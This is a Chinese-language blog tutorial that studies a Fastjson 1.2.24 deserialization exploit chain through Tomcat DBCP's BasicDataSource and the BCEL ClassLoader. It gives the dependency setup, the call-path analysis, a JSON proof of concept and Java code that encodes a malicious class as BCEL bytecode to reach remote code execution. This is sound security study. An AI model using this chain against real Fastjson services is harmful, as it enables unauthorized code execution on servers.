





## 前言

在目前Fastjson上主要存在3条链子：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

第一个利用链是常规的加载恶意字节码，实现RCE，但是需要开启`Feature.SupportNonPublicField`，这个条件就特别苛刻；

第二个利用链用到的是JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，在目标没外网的情况下无法直接利用；

第三个利用链（我们这篇学习的）也是一个对字节码的利用，但是不需要目标额外开启选项，也不用连接外部服务器，利用条件更低。

##  环境搭建：

条件是：需要tomacat的一些依赖

```xml
<dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```

因为`tomcat-dbcp`的版本是`9.0.8`,所以包改为了`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

JDK需要8，JDK7打不出来的

POC:

```java
{
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$...."
        }
    }: "bbb"
}

```

如果依赖换一下：

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```

包为`org.apache.tomcat.dbcp.dbcp.BasicDataSource`

JDK7和JDK8都可以实现。

##  利用链：

介绍`Class.forName()`方法：

之前说过Class.forName() ，是可以根据一个类的路径，获取一个Class对象实例。所以这个方法可以用来动态加载指定的类，它会返回一个指定类/接口的 Class 对象，如果没有指定ClassLoader， 那么它会使用BootstrapClassLoader来进行类的加载。该方法定义如下：

```java
public static Class<?> forName(String name, boolean initialize, ClassLoader loader) throws ClassNotFoundException
  
public static Class<?> forName(String className) throws ClassNotFoundException
```

Class.forName() 和 ClassLoader.loadClass() 这两个方法都可以用来加载目标类，但是都不支持加载原生类型，比如：int。但是Class.forName() 可以加载数组，而 ClassLoader.loadClass() 不能。

Class.forName()方法实际上也是调用的 CLassLoader 来实现的，调用时也可以在参数中明确指定ClassLoader。与ClassLoader.loadClass() 一个小小的区别是，forName() 默认会对类进行初始化，会执行类中的 static 代码块。(这个我们在讲反射时，也提到过)。而ClassLoader.loadClass() 默认并不会对类进行初始化，只是把类加载到了 JVM 虚拟机中。


利用链分析：

在`org.apache.tomcat.dbcp.dbcp.BasicDataSource`的`createConnectionFactory()`方法中：



这个调用了`Class.forName`，就可以加载类，获取一个Class对象实例

同时其中的两个参数实现setter方法，所以我们都是可以控制参数的





一般来说，需要先看看有没有什么getter或者setter方法调用，这样就可以直接触发

但是这个类只在`createDataSource`方法中调用



继续看`createDataSource()`又在`getConnection`调用



所以有个get，整体的payload也就出来了

`BasicDataSource.getConnection() > createDataSource() > createConnectionFactory()`

我们在`BCEL动态加载字节码`就提到过,利用BCEL库独特的ClassLoader，就可以加载BCEL字节码

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;//重点的ClassLoader

public class EvilBCEL {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        System.out.println("$$BCEL$$"+code);
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
    }
}


```

所以这个也是一样的，利用Fastjson中的`parse`调用setter，对其属性进行赋值，然后调用`ClassforName`就可以加载类，执行`static`中的恶意代码。

payload

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.alibaba.fastjson.JSON;
public class fast {
    public static void main(String[] args) throws Exception{
        JavaClass cls = Repository.lookupClass(Evil.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        String poc = "{\n" +
                "    {\n" +
                "        \"aaa\": {\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$"+ code+ "\"\n" +
                "        }\n" +
                "    }: \"bbb\"\n" +
                "}";
        JSON.parse(poc);
    }
}

```

FastJson中的 JSON.parse() 会识别并调用目标类的 setter 方法以及某些满足特定条件的 getter 方法，然而 getConnection() 并不符合特定条件，所以正常来说在 FastJson 反序列化的过程中并不会被调用。

因为JSONObject是Map的子类，在执行toString() 时会将当前类转为字符串形式，会提取类中所有的Field，自然会执行相应的 getter 、is等方法。

首先，在 {“@type”: “org.apache.tomcat.dbcp.dbcp2.BasicDataSource”……} 这一整段外面再套一层{}，反序列化生成一个 JSONObject 对象。

然后，将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法：


从而当`_outputProperties`过来时，调用toString方法，从而实现加载恶意字节码

##  参考文章

https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html

https://mp.weixin.qq.com/s/C1Eo9wst9vAvF1jvoteFoA